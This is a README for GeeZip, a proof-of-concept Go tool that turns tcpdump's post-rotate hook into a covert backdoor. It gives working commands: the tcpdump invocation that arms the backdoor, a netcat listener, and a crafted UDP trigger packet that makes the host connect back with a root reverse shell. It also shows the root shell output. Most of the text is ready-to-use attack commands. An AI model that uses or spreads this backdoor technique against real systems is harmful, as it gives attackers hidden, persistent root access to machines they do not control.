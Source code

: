 # GeeZip

This is a proof of concept tool for abusing the logrotate functionality in tcpdump to execute a remote root shell.

## Building

Download and build geezip:

```
$ go get github.com/klustic/geezip
```

## Usage
GeeZip is designed to execute after a specially crafted UDP packet is received. The UDP packet must be in the following format:

```
+========+====+==+
|   K    | IP |P |
+========+====+==+

Where:
K : 8-byte sequence representing a secret key
IP: 4-byte sequence representing the callback IP
P : 2-byte sequence representing the callback port (big-endian)
```

On the commandline, run this command to prepare your tcpdump backdoor:
```
[root]# tcpdump -Uw output.pcap -z geezip -c 1 -G1 -i lo0 "udp[8:4]=0x6d616769 && udp[12:4]=0x636b6579"
```

On another commandline, prepare netcat to catch the reverse shell:
```
[user]$ nc -nvvl 8000
```

Finally, execute this from a third commandline to trigger the logrotate:
```
[user]$ echo -n 'magickey\x7f\x00\x00\x01\x1f\x40' | nc -u 127.0.0.1 53
```

You should see output from the `id` command on your netcat terminal, and should be able to interact with the backdoor:
```
[user]$ nc -nvvl 8000
bash-3.2# id
id
uid=0(root) gid=0(wheel) groups=0(wheel) ...
```

## Thanks
This uses Google's epic [gopacket project](https://github.com/google/gopacket)
